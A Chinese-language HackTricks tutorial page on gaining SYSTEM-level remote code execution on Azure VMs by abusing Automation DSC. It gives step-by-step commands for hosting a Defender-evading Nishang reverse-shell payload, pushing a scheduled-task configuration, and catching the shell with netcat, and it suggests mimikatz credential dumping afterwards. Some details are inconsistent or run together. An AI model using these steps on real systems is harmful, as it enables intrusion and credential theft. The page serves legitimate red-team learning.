 # Az - 状态配置 RCE

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

**本文摘自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的Nishang Invoke-PowerShellTcp.ps1有效载荷，该服务器是Kali盒子。有效载荷名称将是“RevPS.ps1”。为了防止Nishang脚本因任何原因（也许您更愿意将文件保存到磁盘）被Windows Defender删除，我在这里有一个轻量级版本，您可以使用它来绕过Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由Kali盒子上的一个简单Python Simple Server托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个DSC配置文件。模板可以在这里下载：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。这个配置文件将使用我们之前使用的相同文件写入功能。这次，内容包括从我们的远程服务器下载和执行有效载荷的代码。此外，我们使用_ComputerManagementDsc_模块提供的计划任务功能。计划任务功能将是执行的关键角色，并稍后为我们提供SYSTEM权限。

我们还将下载一个脚本，用于将我们的配置发布到VM。它位于这里：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要用您正在使用的变量名和参数填充**。这包括资源名称、文件路径以及您正在使用的外部服务器/有效载荷名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建了两个文件后，我们将压缩**‘reverse\_shell\_config.ps1’** 文件，以便可以将其发送到存储账户
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### 步骤 3 — 设置存储上下文和上传 <a href="#bed9" id="bed9"></a>

我们将再次设置存储账户的上下文，我已经完成了这一步。我已经有了一个名为‘**azure-pentest**’的容器，所以我将在这里发布我的内容：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### 第4步 — 准备Kali盒子 <a href="#20fb" id="20fb"></a>

在我们的Kali盒子中，我们可以简单地使用 _wget_ 命令下载我们的PowerShell有效载荷。原始的反向Shell脚本位于此处：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要编辑反向 shell 脚本，加入我们的参数，这样一旦执行，Windows VM 就知道要连接到哪里。在我的例子中，我添加了以下内容：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### 步骤 5 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我将我的设置为发布到桌面以便更好地可视化，但它几乎可以发布到任何地方。几分钟后，我们将看到反向 shell 脚本已经发布！

### 步骤 6 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布配置，我们可以同时启动一个 Python SimpleHTTPServer 在 80 端口上托管有效载荷，以及一个 netcat 监听器以捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，我们的有效载荷被检索并以**SYSTEM**级别权限在内存中执行了！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这为我们打开了许多可能性。由于我们有一个以**SYSTEM**身份运行的shell，我们可以使用mimikatz转储凭据（取决于云资源的EDR成熟度，这可能有风险）。如果你转储了凭据，很有可能这些凭据可以在不同资源中重复使用。最后，一个重要的收获是，你现在有能力将这个配置潜在地应用到多个VM上，而不仅限于一个VM。

就此，我们的Azure Automation DSC冒险就结束了！我希望你玩得开心，学到了很多，并继续用你自己的创造力扩展知识。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为英雄，就用</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks**中看到你的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
